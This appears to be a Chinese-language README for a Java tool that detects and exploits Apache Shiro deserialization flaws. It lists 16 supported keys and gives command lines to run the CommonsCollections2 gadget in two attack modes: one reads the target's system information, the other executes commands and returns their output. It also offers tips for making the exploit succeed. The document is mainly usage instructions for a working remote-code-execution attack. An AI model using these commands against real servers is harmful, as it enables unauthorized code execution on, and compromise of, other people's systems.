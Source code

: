 mvn package 编译

payload来自雷石安全实验室的ShiroExploit，再次感谢雷石安全实验室，雷石安全实验室牛逼plus



## shiro-urldns 检测&利用工具
支持shiro 16个key，支持攻击利用。支持的key与gadget以及攻击类型如下
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726115923.png)


## 查看目标服务器的系统信息
该攻击类型为`XraySysProp`，使用方法如下
```
java -jar .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar 16 CommonsCollections2 XraySysProp
```

![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726121111.png)

利用截图如下

![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726121840.png)

## 执行命令并回显
该攻击类型为`XrayCmd` 使用方法如下
```
java -jar .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar 16 CommonsCollections2 XrayCmd
```
利用截图如下
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726122210.png)

## 注意事项
1. 建议删除不相关的http请求头，不然会因为http请求头过大而提示400错误
2.  建议使用CommonsCollections2 gadget，体积小，利用率高
